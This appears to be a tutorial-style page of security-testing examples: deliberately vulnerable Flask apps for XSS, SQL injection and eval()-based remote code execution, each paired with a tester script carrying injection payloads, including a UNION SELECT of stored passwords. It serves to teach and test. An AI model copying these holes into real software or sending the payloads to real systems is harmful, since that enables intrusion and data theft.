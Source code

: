 Here are three specific examples of security vulnerabilities that can be tested for adversarially, along with sample code or instructions:

1. **Example: Cross-Site Scripting (XSS) Vulnerability**

   - **Description**: Test a web application for vulnerabilities related to Cross-Site Scripting, where an attacker injects malicious scripts into a webpage.
   - **Sample Prompt**: ```Write a simple Flask application that demonstrates cross-site scripting and a python script that tests that application for cross-site scripting vulnerabilities.```
   - **Test Code (Python with Flask)**:

   **vulnerable_app.py:**
   ```python
      from flask import Flask, request, render_template_string
      
      app = Flask(__name__)
      
      @app.route('/', methods=['GET', 'POST'])
      def index():
          name = request.args.get('name', 'Guest')
          template = f'''
          <h1>Welcome, {name}!</h1>
          <form action="/" method="get">
              <input type="text" name="name" placeholder="Enter your name">
              <input type="submit" value="Submit">
          </form>
          '''
          return render_template_string(template)
      
      if __name__ == '__main__':
          app.run(debug=True)
      ```
   This application is vulnerable to XSS because it directly includes user input in the template without any sanitization.
   
   **xss_tester.py:**
   ```python
   import requests
   
   def test_xss(url):
       payloads = [
           "<script>alert('XSS')</script>",
           "<img src=x onerror=alert('XSS')>",
           "<svg onload=alert('XSS')>",
           "javascript:alert('XSS')"
       ]
   
       for payload in payloads:
           response = requests.get(f"{url}?name={payload}")
           if payload in response.text:
               print(f"Potential XSS vulnerability found with payload: {payload}")
           else:
               print(f"No XSS vulnerability detected with payload: {payload}")
   
   if __name__ == '__main__':
       target_url = "http://localhost:5000"
       test_xss(target_url)
   ```
   The tester script will attempt to inject various XSS payloads and report whether they were successful or not.

2. **Example: SQL Injection Vulnerability**

   - **Description**: Test a web application for vulnerabilities related to SQL Injection, where an attacker manipulates input to execute malicious SQL queries.
   - **Sample Prompt**: ```Write a simple web application that demonstrates SQL Injection and a python script that tests that application for SQL Injection vulnerabilities.```
   - **Test Code (Python with Flask and SQLAlchemy)**:

   **app.py:**
   ```python
   from flask import Flask, request, render_template_string
   import sqlite3
   
   app = Flask(__name__)
   
   # Initialize the database
   def init_db():
       conn = sqlite3.connect('users.db')
       c = conn.cursor()
       c.execute('''CREATE TABLE IF NOT EXISTS users
                    (id INTEGER PRIMARY KEY, username TEXT, password TEXT)''')
       c.execute("INSERT OR IGNORE INTO users (id, username, password) VALUES (1, 'admin', 'secretpassword')")
       c.execute("INSERT OR IGNORE INTO users (id, username, password) VALUES (2, 'user', 'userpassword')")
       conn.commit()
       conn.close()
   
   init_db()
   
   @app.route('/', methods=['GET', 'POST'])
   def login():
       error = None
       if request.method == 'POST':
           username = request.form['username']
           password = request.form['password']
           
           # Vulnerable SQL query
           query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
           
           conn = sqlite3.connect('users.db')
           c = conn.cursor()
           c.execute(query)
           user = c.fetchone()
           conn.close()
           
           if user:
               return f"Welcome, {user[1]}!"
           else:
               error = "Invalid credentials"
       
       return render_template_string('''
           <h1>Login</h1>
           {% if error %}
           <p style="color: red;">{{ error }}</p>
           {% endif %}
           <form method="post">
               Username: <input type="text" name="username"><br>
               Password: <input type="password" name="password"><br>
               <input type="submit" value="Login">
           </form>
       ''', error=error)
   
   if __name__ == '__main__':
       app.run(debug=True)
   ```
   This application is vulnerable to SQL Injection because it directly incorporates user input into the SQL query without proper sanitization.

    **test_sql_injection.py:**
   ```python
   import requests
   
   def test_sql_injection(url):
       # Test cases
       payloads = [
           "' OR '1'='1",
           "' OR '1'='1' --",
           "' UNION SELECT 1, username, password FROM users --",
           "admin' --",
           "' OR 1=1 --",
       ]
   
       for payload in payloads:
           data = {
               'username': payload,
               'password': 'anything'
           }
           response = requests.post(url, data=data)
           
           print(f"Payload: {payload}")
           print(f"Response: {response.text}")
           print(f"Status Code: {response.status_code}")
           print("-" * 50)
   
           if "Welcome" in response.text:
               print("SQL Injection vulnerability detected!")
               return True
   
       print("No SQL Injection vulnerability detected.")
       return False
   
   if __name__ == "__main__":
       url = "http://localhost:5000"  # Change this to the URL of your Flask app
       test_sql_injection(url)
   ```
   The testing script will attempt various SQL Injection payloads and report if any vulnerabilities are detected.

4. **Example: Remote Code Execution (RCE) Vulnerability**

   - **Description**: Test a system for vulnerabilities related to Remote Code Execution, where an attacker can execute arbitrary code on a server.
   - **Sample Prompt**: ```Write a simple web application that demonstrates Remote Code Execution and a python script that tests that application for Remote Code Execution vulnerabilities.```
   - **Test Code (Python)**:

   **app.py**:
   ```python
   from flask import Flask, request
   
   app = Flask(__name__)
   
   @app.route("/", methods=["GET"])
   def index():
       return "Hello, World!"
   
   @app.route("/exec", methods=["POST"])
   def exec_code():
       code = request.form["code"]
       result = eval(code)
       return f"Result: {result}"
   
   if __name__ == "__main__":
       app.run()
   ```

   This application has two routes: `/` and `/exec`. The `/` route returns a simple message, while the `/exec` route takes a piece of Python code as input, evaluates it using `eval()`, and returns the result.
   
   **testing.py**
   ```python
   import requests
   
   # Set up the URL and payload for the request
   url = "http://localhost:5000/exec"
   payload = {"code": "__import__('os').system('ls -la')"}
   
   # Make the request and get the response
   response = requests.post(url, data=payload)
   
   # Check if the response contains the expected result
   if "Result: None" in response.text:
       print("Remote Code Execution vulnerability detected!")
   else:
       print("No Remote Code Execution vulnerability detected.")
   ```

   This script makes a POST request to the `/exec` route of the application with a piece of Python code that imports the `os` module and executes the `ls -la` command. If the response contains the expected result (i.e., "Result: None"), then it means that the application is vulnerable to Remote Code Execution attacks.

It's important to note that these examples demonstrate how vulnerabilities can be exploited adversarially. In practice, identifying and mitigating such vulnerabilities is critical to ensuring the security of applications and systems. Security testing should be conducted responsibly and with proper authorization.

